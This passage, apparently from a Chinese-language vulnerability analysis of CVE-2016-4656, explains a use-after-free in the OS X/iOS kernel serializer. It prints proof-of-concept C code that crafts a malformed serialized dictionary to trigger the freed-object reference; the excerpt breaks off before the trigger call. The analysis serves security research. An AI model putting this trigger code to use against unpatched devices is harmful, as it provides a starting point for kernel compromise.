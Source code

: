 

因此，用kOSSerializeObject数据类型来创建已损坏的OSString对象的引用是可行的，这是一个典型的use after free漏洞。

 

**5.POC**

找出了问题后,我们创建了一个简单的POC来触发这个漏洞,下面的图中就是POC。你可以在OS X上试试(因为它和iOS有一样的漏洞)。

```
/*
 * Simple POC to trigger CVE-2016-4656 (C) Copyright 2016 Stefan Esser / SektionEins GmbH
 * compile on OS X like:
 *    gcc -arch i386 -framework IOKit -o ex exploit.c
 */
#include &lt;unistd.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;stdio.h&gt;
#include &lt;mach/mach.h&gt;
#include &lt;IOKit/IOKitLib.h&gt;
#include &lt;IOKit/iokitmig.h&gt;
 
enum
`{`
  kOSSerializeDictionary   = 0x01000000U,
  kOSSerializeArray        = 0x02000000U,
  kOSSerializeSet          = 0x03000000U,
  kOSSerializeNumber       = 0x04000000U,
  kOSSerializeSymbol       = 0x08000000U,
  kOSSerializeString       = 0x09000000U,
  kOSSerializeData         = 0x0a000000U,
  kOSSerializeBoolean      = 0x0b000000U,
  kOSSerializeObject       = 0x0c000000U,
  kOSSerializeTypeMask     = 0x7F000000U,
  kOSSerializeDataMask     = 0x00FFFFFFU,
  kOSSerializeEndCollecton = 0x80000000U,
`}`;
 
#define kOSSerializeBinarySignature "323"
 
int main()
`{`
  char * data = malloc(1024);
  uint32_t * ptr = (uint32_t *) data;
  uint32_t bufpos = 0;
  mach_port_t master = 0, res;
  kern_return_t kr;
 
  /* create header */
  memcpy(data, kOSSerializeBinarySignature, sizeof(kOSSerializeBinarySignature));
  bufpos += sizeof(kOSSerializeBinarySignature);
 
  /* create a dictionary with 2 elements */
  *(uint32_t *)(data+bufpos) = kOSSerializeDictionary | kOSSerializeEndCollecton | 2; bufpos += 4;
  /* our key is a OSString object */
  *(uint32_t *)(data+bufpos) = kOSSerializeString | 7; bufpos += 4;
  *(uint32_t *)(data+bufpos) = 0x41414141; bufpos += 4;
  *(uint32_t *)(data+bufpos) = 0x00414141; bufpos += 4;
  /* our data is a simple boolean */
  *(uint32_t *)(data+bufpos) = kOSSerializeBoolean | 64; bufpos += 4;
  /* now create a reference to object 1 which is the OSString object that was just freed */
  *(uint32_t *)(data+bufpos) = kOSSerializeObject | 1; bufpos += 4;
 
  /* get a master port for IOKit API */
  host_get_io_master(mach_host_self(), &amp;master);
  /* trigger the bug */
```